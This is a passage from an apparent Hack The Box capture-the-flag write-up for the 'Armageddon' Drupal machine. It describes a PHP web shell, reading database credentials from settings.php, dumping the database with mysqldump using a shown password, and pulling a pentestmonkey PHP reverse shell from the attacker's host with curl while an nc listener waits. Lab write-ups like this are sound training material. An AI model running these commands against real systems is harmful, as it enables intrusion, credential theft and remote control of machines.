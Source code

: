 Just like that we now have a basic web shell on the machine. The issue here is this shell is it only executes one command at a time so we cant for example change directories and list the files. We can get around this by using full paths every time (ex: `ls /var/www/html/sites)` but this gets a bit annoying. It is entirely possible to do get what you need from only this web shell though.

## Getting creds the easy way
If you are just looking for the solution to the box I'll show you the easy way of doing this first and we'll explore the longer process later. There are SQL credentials in the `/var/www/html/sites/default/settings.php` file.

![](/images/HTB/Armageddon/settingsphp.png)

With those credentials we can dump the SQL database using mysqldump. Doing that is as easy as running `mysqldump -u drupaluser --password=CQHEy@9M*m23gBVj drupal | tee cyphersqldump.txt` which leaves a nice file in the webroot we can grab with wget.

![](/images/HTB/Armageddon/wget.png)

## Getting creds the longer way
This is ultimately the path I took to get the credentials and it presented a bunch of learning opportunities. 

### Getting a full shell
The first thing I wanted to do after getting the basic shell was get a full shell. Since we are using PHP for the web shell my mind instantly went to using the pentestmonkey PHP reverse shell. We can verify that the box has cURL by checking with `which curl` so we can easily transfer it to the machine that way. First we modify the PHP file with our IP and a port (I'm using port 6868 which will be important later on) and we can serve it from our machine with `python3 -m http.server 80`. Now we can download it to the box using `curl 10.10.14.9/cypher.php -o cypher.php`. We can start our listener with `nc -lvnp 6868` and navigate to `10.10.10.233/cypher.php`. At this point we should get a shell however we instead see a permission denied error.
